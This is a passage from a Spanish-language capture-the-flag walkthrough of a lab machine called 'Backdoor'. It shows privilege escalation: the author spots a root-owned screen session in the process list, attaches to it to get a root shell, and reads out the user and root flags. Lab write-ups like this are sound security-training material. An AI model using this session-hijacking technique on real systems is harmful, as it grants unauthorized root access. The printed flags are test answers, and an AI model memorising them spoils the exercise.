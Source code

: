 ```console
user.txt
user@Backdoor:/home/user$ cat user.txt 
3c8331a33082e9498264297139288028
```

## Escalada de Privilegios

Lo primero es ver si tenemos algún permiso a nivel de sudo:

```console
user@Backdoor:/home/user$ sudo -l
[sudo] password for user: 
```

Nos pide contraseña pero no la conocemos, por lo tanto no podemos listar los permisos.

Con el comando **`ps aux`** podemos listar todos los procesos en ejecución. De entre todos, uno me llama la atención:

```console
root         913  0.0  0.1   6952  2436 ?        Ss   01:55   0:00 SCREEN -dmS root
```

Como vemos, se está ejecutando una sesión **`screen`** referenciada con el nombre **`root`**. Vamos a entrar en la sesión:

```console
p3ntest1ng:~$ /usr/bin/screen -x root/root
```

```console
root@Backdoor:~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# ls
root.txt
root@Backdoor:~# cat root.txt 
7dc16ed16413b46043c7adf087fe1b69
root@Backdoor:~# 
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠